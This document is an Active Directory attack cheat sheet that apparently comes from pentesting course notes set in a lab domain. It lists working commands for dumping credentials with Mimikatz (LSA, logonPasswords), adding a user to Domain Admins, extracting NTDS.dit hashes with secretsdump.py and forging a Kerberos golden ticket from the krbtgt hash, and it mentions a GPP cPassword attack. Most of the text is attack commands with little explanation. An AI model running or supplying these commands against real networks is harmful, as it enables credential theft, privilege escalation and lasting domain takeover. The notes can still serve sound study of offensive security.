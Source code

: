 To dump hashes:
```bash
mimikatz(powershell) # privilege::debug
mimikatz(powershell) # LSADump::LSA /patch
```

How to add a new user:
```powershell
net user /add hawkeye Password1@ /domain
```

How to add user into group:
```powershell
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

GPP attack(cPassword attack)=>
Sample Groups.xml file=>
![image3](images/image3.jpg)

Cracking password=>
![image4](images/image4.jpg)


Credential Dumping with Mimikatz=>

Mimikatz:https://github.com/gentilkiwi/mimikatz

Below command is must on Mimikatz!
```bash
mimikatz # privilege::debug
```

Reminder! When you write module_name then put "::" then , clicking Tab, you can get **HELP**

1.sekurlsa : This module is used to enumerate credentials.
Example:
```bash
mimikatz # sekurlsa:logonPasswords
```

# After compromising Domain

Dumping NTDS.dit=>
```bash
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

Golden Ticket Attacks=>

1.First, we get NTLM hash ,SID and relative ID of krbtgt account from KDC
```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

2.Then using above creds, we just create golden ticket.
```bash
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```
